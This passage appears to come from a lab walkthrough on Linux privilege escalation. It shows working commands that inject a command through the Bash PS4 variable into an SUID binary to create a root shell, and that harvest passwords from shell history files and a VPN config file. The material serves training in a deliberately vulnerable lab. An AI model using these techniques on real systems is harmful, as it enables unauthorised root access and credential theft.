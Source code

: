 Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.  

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash  
exit`
##  Passwords & Keys

### History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

`cat ~/.*history | less`

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

Switch to the root user, using the password:

`su root`
### Config Files

Config files often contain passwords in plaintext or other reversible formats.

List the contents of the user's home directory:

`ls /home/user`

Note the presence of a **myvpn.ovpn** config file. View the contents of the file:

`cat /home/user/myvpn.ovpn`

The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:

`su root`
### SSH Keys

Sometimes users make backups of important files but fail to secure them with the correct permissions.

